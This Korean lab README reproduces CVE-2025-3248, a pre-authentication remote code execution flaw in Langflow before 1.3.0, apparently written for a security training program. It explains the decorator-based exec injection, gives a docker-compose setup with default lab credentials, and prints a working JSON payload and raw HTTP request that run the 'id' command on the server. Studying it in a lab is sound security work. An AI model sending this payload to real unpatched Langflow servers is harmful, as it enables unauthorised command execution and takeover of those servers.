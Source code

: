 # Langflow `validate/code` API 인증 없이 원격 코드 실행 (CVE-2025-3248)
> 화이트햇 스쿨 3기 - 이찬휘 ([`@iChanee`](https://github.com/iChanee))


[中文版本(Chinese version)](README.zh-cn.md) | [English version](README.en.md)

---

Langflow는 에이전트 기반 AI 워크플로우를 구축할 수 있는 인기 있는 오픈소스 도구로, Python 기반의 웹 인터페이스를 통해 시각적으로 AI 기반 에이전트 및 파이프라인을 구성할 수 있습니다.

Langflow 1.3.0 이전 버전에는 치명적인 인증되지 않은 원격 코드 실행 취약점(CVE-2025-3248)이 존재합니다.  
취약한 엔드포인트(`/api/v1/validate/code`)는 사용자가 제출한 Python 코드를 `ast` 모듈로 파싱한 후 `exec`를 이용해 함수 정의를 실행합니다.  
하지만 Python의 decorator 및 기본 인자(default argument)는 함수 정의 시점에 함께 실행되므로, 이를 통해 임의의 코드를 삽입해 실행할 수 있습니다.

- **취약점 종류**: `Pre-auth Remote Code Execution`  
- **CVE ID**: `CVE-2025-3248`  
- **영향 버전**: `Langflow < 1.3.0`

공격자는 악의적으로 조작된 함수 정의를 보내며, decorator 또는 기본 인자를 이용해 코드를 주입함으로써 서버 권한으로 명령어를 실행할 수 있습니다.

## 참고 자료

- [horizon3.ai 분석 보고서](https://horizon3.ai/attack-research/disclosures/unsafe-at-any-speed-abusing-python-exec-for-unauth-rce-in-langflow-ai/)
- [Langflow 1.3.0 릴리즈](https://github.com/langflow-ai/langflow/releases/tag/1.3.0)
- [관련 Pull Request](https://github.com/langflow-ai/langflow/pull/6911)

---


## 환경 구성
### 사용 기술 및 환경

- Docker
- docker-compose
- Langflow 1.2.0 이미지
- Burp Suite (PoC 전송용)

### 실행 명령어

```bash
docker compose up -d
```
![](docker_up.jpg)

서버가 시작되면, Langflow 웹 인터페이스는 http://your-ip:7860 에서 접근할 수 있습니다.
기본 로그인 자격 증명은 administrator:vulhub 입니다.


## 환경 실행 후 Langflow 인터페이스 확인
### Langflow 로그인 화면

![Langflow 로그인](Langflow_interface_login.jpg)

### Langflow 프로젝트 화면

![Langflow 프로젝트](Langflow_interface_main.jpg)


서버가 시작되면, Langflow 웹 인터페이스는 `http://your-ip:7860` 에서 접근할 수 있습니다.  
기본 로그인 자격 증명은 `administrator:vulhub` 입니다.


## 취약점 재현
### 요청 정보

- URL: http://localhost:7860/api/v1/validate/code
- Method: POST
- Content-Type: application/json

### 공격 Payload
``` json
{
  "code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"
}
```

해당 취약점을 재현하려면 `/api/v1/validate/code` 엔드포인트에 악의적으로 조작된 Python 함수 정의를 담은 POST 요청을 전송하면 됩니다.  
예를 들어, 아래 payload는 decorator를 통해 서버에서 `id` 명령어를 실행합니다:

```
POST /api/v1/validate/code HTTP/1.1
Host: your-ip:7860
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 105

{"code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"}
```

## Burp Suite를 이용해 위 요청을 보낸 결과: 
![](burp_poc.jpg)